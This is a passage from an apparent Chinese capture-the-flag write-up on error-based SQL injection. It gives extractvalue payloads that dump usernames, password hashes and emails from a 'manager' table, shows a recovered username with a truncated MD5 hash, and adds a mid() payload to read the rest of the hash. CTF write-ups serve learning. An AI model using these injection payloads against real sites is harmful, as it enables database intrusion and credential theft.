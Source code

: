- 查用户名密码

  ```bash
  ' and extractvalue(1,concat(0x5c,(select group_concat(username,'|',password,'|',email) from manager))) -- 
  ```

  ![image-20210416220736390](/images/posts/ctf/image-20210416220736390.png)

  得到`username|password`：`ichuqiu|318a61264482e503090facf`

  明显密码显示不全，达不到MD5加密后的32位

- 继续构造查询密码后几位

  ```bash
  ' and extractvalue(1,concat(0x5c,mid(select group_concat(username,'|',password,'|',email) from manager), 20, 54)) -- 
  ```

  ![image-20210416222026878](/images/posts/ctf/image-20210416222026878.png)
